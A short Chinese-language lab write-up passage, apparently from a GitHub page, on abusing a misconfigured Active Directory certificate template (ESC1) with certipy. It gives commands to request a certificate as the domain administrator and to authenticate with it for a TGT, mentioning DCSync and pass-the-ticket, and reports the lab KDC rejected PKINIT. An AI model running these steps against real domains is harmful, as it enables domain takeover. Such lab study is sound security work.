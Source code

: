 ## 漏洞利用

### certipy

用这个工具可以在域外使用，用linux的机器，我在windows上ldap认证会失败

利用我们创建的漏洞模板ECS1Tmpl为域管请求证书

```
certipy req -u 'win10test@town.domain' -p 'xxxx' -target 192.168.1.10 -dc-ip 192.168.1.10 -ca "town-DC-CA" -template 'ECS1Tmpl' -upn administrator@town.domain
```
![img.png](images/33.png)

接着转换格式，请求TGT，DCSync或者PTT
```angular2html
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
```
但是这里出现了这个问题

![img.png](images/35.png)

这是因为我自己搭建的环境未将 KDC 配置为使用证书 （PKINIT） 进行 Kerberos 身份验证

![img.png](images/36.png)
